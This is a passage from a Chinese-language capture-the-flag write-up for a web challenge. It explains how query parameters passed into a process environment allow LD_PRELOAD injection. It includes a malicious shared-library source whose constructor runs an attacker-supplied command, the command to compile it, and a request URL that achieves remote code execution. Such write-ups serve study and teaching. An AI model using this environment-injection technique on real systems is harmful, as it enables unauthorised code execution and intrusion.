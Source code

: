 ```go
	for k, _ := range values {
		command.Env = append(command.Env, fmt.Sprintf("%s=%s", k, values.Get(k)))
	}
```

利用`LD_PRELOAD`来加载恶意上传的so即可。

```c
root@VM-0-6-ubuntu:~# cat evil.c
#include<stdlib.h>
__attribute__((constructor)) void l3yx(){
    unsetenv("LD_PRELOAD");
    system(getenv("_evilcmd"));
}
root@VM-0-6-ubuntu:~# gcc -shared -fPIC -o evil.so evil.c
```

（刷新/页面的时候抓包就会发现会请求`/token?http_proxy=127.0.0.1:8080`，成功得到token，说明需要通过8080端口的proxy来访问，看一下proxy就知道它会自动在header里面添加上Secretkey）

将so文件上传之后即可rce：

```
/token?http_proxy=127.0.0.1:8080&LD_PRELOAD=/code/uploads/2ea6a3a71d0b2db658544f67f1468897/XVlBz&_evilcmd=ls /
```

![image-20220105192142771](2021-湖湘杯final-Web.assets/image-20220105192142771.png)

接下来就是直接拿shell进行curl内网的server服务的`/manage`即可。 
